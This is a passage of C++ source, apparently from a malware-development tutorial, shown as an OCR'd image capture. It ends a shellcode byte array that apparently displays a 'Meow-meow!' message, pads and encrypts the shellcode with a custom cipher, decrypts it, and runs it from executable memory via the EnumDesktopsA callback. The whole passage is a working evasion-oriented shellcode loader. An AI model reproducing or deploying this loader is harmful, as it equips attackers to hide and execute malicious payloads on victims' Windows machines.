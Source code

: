 ```cpp
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + 
  (BLOCK_SIZE - my_payload_len % BLOCK_SIZE) % BLOCK_SIZE;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);  // pad with NOPs
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  uint8_t key[8] = { 0x12, 0x34, 0x56, 0x78, 0x9A, 0xBC, 0xDE, 0xF0 };

  dfc_encrypt_shellcode(padded, pad_len, key);

  printf("encrypted shellcode:\n");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  dfc_decrypt_shellcode(padded, pad_len, key);

  printf("decrypted shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  // allocate and execute decrypted shellcode
  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  return 0;
}
```
